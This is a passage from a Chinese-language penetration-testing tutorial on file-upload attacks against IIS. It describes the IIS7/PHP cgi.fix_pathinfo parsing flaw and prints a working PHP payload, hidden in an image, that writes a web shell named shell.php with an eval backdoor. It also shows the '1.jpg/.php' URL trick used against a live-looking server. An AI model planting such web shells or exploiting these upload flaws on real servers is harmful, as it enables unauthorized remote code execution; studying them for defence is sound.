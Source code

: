 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFM59n7CbujbknKTfbdyq28dCyMKB3K1dfGtLFvtgAHbjcYBIC6w1dYw/640?wx_fmt=png)

然后直接上传 “1.asa” 文件，如下图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFVya1xIZ7OJ8INmiaYADGHsFsVQXyx695S13z4QUibtJaBqoFbFRfTg3g/640?wx_fmt=png)

然后点击代码，可以看到这是一个木马的文件路径。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFXEnus49LVm2lEbot0YCxPkWkmtbIuicBeuVOBicUUM9PetW0RgZQyeAg/640?wx_fmt=png)

所以，编辑器其实就是一个上传点，通过解析漏洞或多种文件上传漏洞可以实现绕过并上传一句话木马，从而提权。

二. IIS 高版本上传
============

IIS6.0 毕竟是一个低版本，除了靶场和僵尸站很少能够遇到。真实的渗透中，会遇到很多的问题，比如 WAF、高版本过滤、安全狗、被拦截绕过、不解析等等。接下来分享一个 IIS 高版本上传思路。

1. 畸形解析漏洞
---------

畸形解析漏洞影响版本：IIS7、IIS7.5、Nginx<0.8.03，漏洞产生条件是开启 Fast-CGI 或 php 配置文件中 cgi.fix_pathinfo。

其漏洞不是 IIS 本身的问题，而是 PHP 配置不当造成的问题，根本原因是开启了 cgi.fix_pathinfo 选项。由于该漏洞是 php 配置造成，并且默认开启该功能，所以它影响了 IIS7、IIS7.5、IIS8.5 等多个版本，凡是 IIS+PHP 都有可能会有这个漏洞。

漏洞利用方法：当我们上传一张名为 “1.jpg” 的图片文件，并且这张图片文件里包含以下代码。

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>'); ?>
```

那么它会生成一个叫 shell.php 的脚本文件，并写入我们的一句话，密码为 cmd。而一句话的位置是：上传的图片文件名字 “/shell.php”。如果图片没有被改名，那么现在我们的一句话文件在“1.jpg/shell.php” 中。

2. 案例分析
-------

假设我们向 IIS+PHP 搭建的远程服务器上传 “1.jpg” 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFyBt9f7DBwB44d1ANbyWtYRSz3CFZd5lQSvTbaiaOCOicmAWzKTfwCrqA/640?wx_fmt=png)

开启服务器如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFI7UCice9c3dE3yaDe76qZPstoD9KaU3LY08icaGC103pqkRO68FzVchw/640?wx_fmt=png)

“1.jpg” 代码包含如下代码 ，它能显示 PHP 配置信息。

```
<?php phpinfo(); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFTqm12D6esz5icXPmPls2sZjvo6zDWOrkQbVhvK0QpfV2gMfJiaZEia5rA/640?wx_fmt=png)

通过 URL 能够访问 PHP 的版本信息，如下图所示。该 URL 运行了我们的 PHP 代码，所以才返回相应的配置信息。在 URL（49.234.12.78/1.jpg/.php）中，首先访问 “.php” 文件，它是不存在的，所以跳到前面的 “1.jpg” 位置，而 “1.jpg” 是存在的并且包含 php 代码，就会把它当成 php 文件去执行，并获取 PHP 配置信息。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMTufVapcmz6Dv67rC5RUhFibhLiar3amSVCFdwJicA3A5WXQCgJ0MVrCxXIQYmbO5SJz3hNKBWrgEQw/640?wx_fmt=png)
